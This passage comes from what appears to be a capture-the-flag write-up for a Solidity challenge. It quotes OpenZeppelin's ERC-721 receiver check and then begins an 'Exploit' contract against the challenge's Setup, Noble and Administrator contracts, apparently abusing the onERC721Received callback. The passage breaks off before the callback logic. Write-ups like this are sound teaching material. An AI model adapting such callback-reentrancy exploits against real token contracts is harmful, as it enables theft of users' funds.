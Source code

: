```solidity
    function checkOnERC721Received(
        address operator,
        address from,
        address to,
        uint256 tokenId,
        bytes memory data
    ) internal {
        if (to.code.length > 0) {
            try IERC721Receiver(to).onERC721Received(operator, from, tokenId, data) returns (bytes4 retval) {
                if (retval != IERC721Receiver.onERC721Received.selector) {
                    // Token rejected
                    revert IERC721Errors.ERC721InvalidReceiver(to);
                }
            } catch (bytes memory reason) {
                if (reason.length == 0) {
                    // non-IERC721Receiver implementer
                    revert IERC721Errors.ERC721InvalidReceiver(to);
                } else {
                    assembly ("memory-safe") {
                        revert(add(32, reason), mload(reason))
                    }
                }
            }
        }
    }
}
```
&nbsp;  
We know what we have to do now; we just need to implement the Exploit. Here is the final Exploit Contract. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Administrator.sol";
import "./Noble.sol";
import "./Setup.sol";
import "openzeppelin/token/ERC721/IERC721Receiver.sol";

contract Exploit is IERC721Receiver {
    Setup public setup;
    Noble public noble;
    Administrator public admin;

    uint256 public count = 0;

    constructor(address _setup) payable {
        setup = Setup(_setup);
        noble = Noble(setup.noble());
        admin = Administrator(setup.admin());
    }

    function exploit() public{
        count++;
        admin.proofNobility{value: 1 ether}();
    }

    function proofSolve() public{
        admin.isTrueNoble();
    }

```